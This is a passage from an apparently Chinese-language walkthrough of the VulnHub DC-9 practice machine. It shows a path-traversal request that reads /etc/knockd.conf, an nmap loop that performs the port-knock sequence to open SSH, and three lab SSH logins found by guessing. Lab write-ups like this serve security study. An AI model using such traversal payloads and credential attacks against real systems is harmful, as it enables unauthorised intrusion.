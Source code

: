 ![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC9/12.png)

什么鬼,怎么连不上去,google 了半天,原来是用一个叫 knock 服务保护 SSH,按特定的访问端口才可以访问服务,淦,找一下 knock 的配置文件吧.

`http://192.168.141.143/manage.php?file=../../../../etc/knockd.conf`

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC9/13.png)

开门,社区送温暖
```bash
for x in 7469 8475 9842; do nmap -Pn --max-retries 0 -p $x 192.168.141.143; done
nmap -T5 -A -v -p- 192.168.141.143
```

ok,开了,连接试试

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC9/14.png)

试出3个账号可以连接
```
chandlerb   UrAG0D!
joeyt       Passw0rd
janitor     Ilovepeepee
```

---